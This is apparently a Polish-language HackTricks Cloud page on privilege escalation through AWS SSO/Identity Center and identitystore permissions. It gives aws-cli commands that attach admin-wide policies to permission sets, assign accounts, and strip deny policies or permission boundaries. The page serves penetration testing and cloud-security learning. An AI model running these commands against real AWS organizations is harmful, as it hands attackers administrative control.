 # AWS - SSO & identitystore Privesc

{% hint style="success" %}
Ucz się i ćwicz Hacking AWS:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Ucz się i ćwicz Hacking GCP: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Wsparcie dla HackTricks</summary>

* Sprawdź [**plany subskrypcyjne**](https://github.com/sponsors/carlospolop)!
* **Dołącz do** 💬 [**grupy Discord**](https://discord.gg/hRep4RUj7f) lub [**grupy telegram**](https://t.me/peass) lub **śledź** nas na **Twitterze** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Dziel się trikami hackingowymi, przesyłając PR-y do** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repozytoriów github.

</details>
{% endhint %}

## AWS Identity Center / AWS SSO

Aby uzyskać więcej informacji na temat AWS Identity Center / AWS SSO, sprawdź:

{% content-ref url="../aws-services/aws-iam-enum.md" %}
[aws-iam-enum.md](../aws-services/aws-iam-enum.md)
{% endcontent-ref %}

{% hint style="warning" %}
Zauważ, że **domyślnie** tylko **użytkownicy** z uprawnieniami **z** **Konta Zarządzającego** będą mogli uzyskać dostęp i **kontrolować IAM Identity Center**.\
Użytkownicy z innych kont mogą to zrobić tylko, jeśli konto jest **Delegowanym Administratorem.**\
[Sprawdź dokumentację, aby uzyskać więcej informacji.](https://docs.aws.amazon.com/singlesignon/latest/userguide/delegated-admin.html)
{% endhint %}

### ~~Resetuj hasło~~

Łatwym sposobem na eskalację uprawnień w takich przypadkach byłoby posiadanie uprawnienia, które pozwala na resetowanie haseł użytkowników. Niestety, możliwe jest tylko wysłanie e-maila do użytkownika w celu zresetowania jego hasła, więc potrzebujesz dostępu do e-maila użytkownika.

### `identitystore:CreateGroupMembership`

Dzięki temu uprawnieniu możliwe jest dodanie użytkownika do grupy, aby mógł on dziedziczyć wszystkie uprawnienia, które ma grupa.

{% code overflow="wrap" %}
```bash
aws identitystore create-group-membership --identity-store-id <tore-id> --group-id <group-id> --member-id UserId=<user-id>
```
{% endcode %}

### `sso:PutInlinePolicyToPermissionSet`, `sso:ProvisionPermissionSet`

Napastnik z tym uprawnieniem mógłby przyznać dodatkowe uprawnienia do Zestawu Uprawnień, który jest przyznany użytkownikowi pod jego kontrolą

{% code overflow="wrap" %}
```bash
# Set an inline policy with admin privileges
aws sso-admin put-inline-policy-to-permission-set --instance-arn <instance-arn> --permission-set-arn <perm-set-arn> --inline-policy file:///tmp/policy.yaml

# Content of /tmp/policy.yaml
{
"Version": "2012-10-17",
"Statement": [
{
"Sid": "Statement1",
"Effect": "Allow",
"Action": ["*"],
"Resource": ["*"]
}
]
}

# Update the provisioning so the new policy is created in the account
aws sso-admin provision-permission-set --instance-arn <instance-arn> --permission-set-arn <perm-set-arn> --target-type ALL_PROVISIONED_ACCOUNTS
```
{% endcode %}

### `sso:AttachManagedPolicyToPermissionSet`, `sso:ProvisionPermissionSet`

Napastnik z tym uprawnieniem mógłby przyznać dodatkowe uprawnienia do Zestawu Uprawnień, który został przyznany użytkownikowi pod jego kontrolą

{% code overflow="wrap" %}
```bash
# Set AdministratorAccess policy to the permission set
aws sso-admin attach-managed-policy-to-permission-set --instance-arn <instance-arn> --permission-set-arn <perm-set-arn> --managed-policy-arn "arn:aws:iam::aws:policy/AdministratorAccess"

# Update the provisioning so the new policy is created in the account
aws sso-admin provision-permission-set --instance-arn <instance-arn> --permission-set-arn <perm-set-arn> --target-type ALL_PROVISIONED_ACCOUNTS
```
{% endcode %}

### `sso:AttachCustomerManagedPolicyReferenceToPermissionSet`, `sso:ProvisionPermissionSet`

Napastnik z tymi uprawnieniami mógłby przyznać dodatkowe uprawnienia do Zestawu Uprawnień, który jest przyznany użytkownikowi pod jego kontrolą.

{% hint style="warning" %}
Aby nadużyć tych uprawnień w tym przypadku, musisz znać **nazwę zarządzanej przez klienta polityki, która znajduje się we WSZYSTKICH kontach**, które mają być dotknięte.
{% endhint %}

{% code overflow="wrap" %}
```bash
# Set AdministratorAccess policy to the permission set
aws sso-admin attach-customer-managed-policy-reference-to-permission-set --instance-arn <instance-arn> --permission-set-arn <perm-set-arn> --customer-managed-policy-reference <customer-managed-policy-name>

# Update the provisioning so the new policy is created in the account
aws sso-admin provision-permission-set --instance-arn <instance-arn> --permission-set-arn <perm-set-arn> --target-type ALL_PROVISIONED_ACCOUNTS
```
{% endcode %}

### `sso:CreateAccountAssignment`

Napastnik z tym uprawnieniem mógłby przypisać Zestaw Uprawnień użytkownikowi pod jego kontrolą do konta.

{% code overflow="wrap" %}
```bash
aws sso-admin create-account-assignment --instance-arn <instance-arn> --target-id <account_num> --target-type AWS_ACCOUNT --permission-set-arn <permission_set_arn> --principal-type USER --principal-id <principal_id>
```
{% endcode %}

### `sso:GetRoleCredentials`

Zwraca krótkoterminowe poświadczenia STS dla podanej nazwy roli przypisanej do użytkownika.

{% code overflow="wrap" %}
```
aws sso get-role-credentials --role-name <value> --account-id <value> --access-token <value>
```
{% endcode %}

Jednak potrzebujesz tokena dostępu, którego nie jestem pewien, jak uzyskać (TODO).

### `sso:DetachManagedPolicyFromPermissionSet`

Atakujący z tym uprawnieniem może usunąć powiązanie między zarządzaną polityką AWS a określonym zestawem uprawnień. Możliwe jest przyznanie większych uprawnień poprzez **odłączenie zarządzanej polityki (polityka odmowy)**.

{% code overflow="wrap" %}
```bash
aws sso-admin detach-managed-policy-from-permission-set --instance-arn <SSOInstanceARN> --permission-set-arn <PermissionSetARN> --managed-policy-arn <ManagedPolicyARN>
```
{% endcode %}

### `sso:DetachCustomerManagedPolicyReferenceFromPermissionSet`

Napastnik z tym uprawnieniem może usunąć powiązanie między polityką zarządzaną przez klienta a określonym zestawem uprawnień. Możliwe jest przyznanie większych uprawnień poprzez **odłączenie polityki zarządzanej (polityka odmowy)**.

{% code overflow="wrap" %}
```bash
aws sso-admin detach-customer-managed-policy-reference-from-permission-set --instance-arn <value> --permission-set-arn <value> --customer-managed-policy-reference <value>
```
{% endcode %}

### `sso:DeleteInlinePolicyFromPermissionSet`

Napastnik z tym uprawnieniem może usunąć uprawnienia z polityki inline z zestawu uprawnień. Możliwe jest przyznanie **większych uprawnień poprzez odłączenie polityki inline (polityka odmowy)**.

{% code overflow="wrap" %}
```bash
aws sso-admin delete-inline-policy-from-permission-set --instance-arn <SSOInstanceARN> --permission-set-arn <PermissionSetARN>
```
{% endcode %}

### `sso:DeletePermissionBoundaryFromPermissionSet`

Napastnik z tym uprawnieniem może usunąć Granicę Uprawnień z zestawu uprawnień. Możliwe jest przyznanie **większych uprawnień poprzez usunięcie ograniczeń na Zestawie Uprawnień** nadanych przez Granicę Uprawnień.

{% code overflow="wrap" %}
```bash
aws sso-admin   delete-permissions-boundary-from-permission-set --instance-arn <value> --permission-set-arn <value>
```
{% endcode %}

{% hint style="success" %}
Ucz się i ćwicz Hacking AWS:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Ucz się i ćwicz Hacking GCP: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Wsparcie HackTricks</summary>

* Sprawdź [**plany subskrypcyjne**](https://github.com/sponsors/carlospolop)!
* **Dołącz do** 💬 [**grupy Discord**](https://discord.gg/hRep4RUj7f) lub [**grupy telegram**](https://t.me/peass) lub **śledź** nas na **Twitterze** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Dziel się trikami hackingowymi, przesyłając PR-y do** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repozytoriów github.

</details>
{% endhint %}

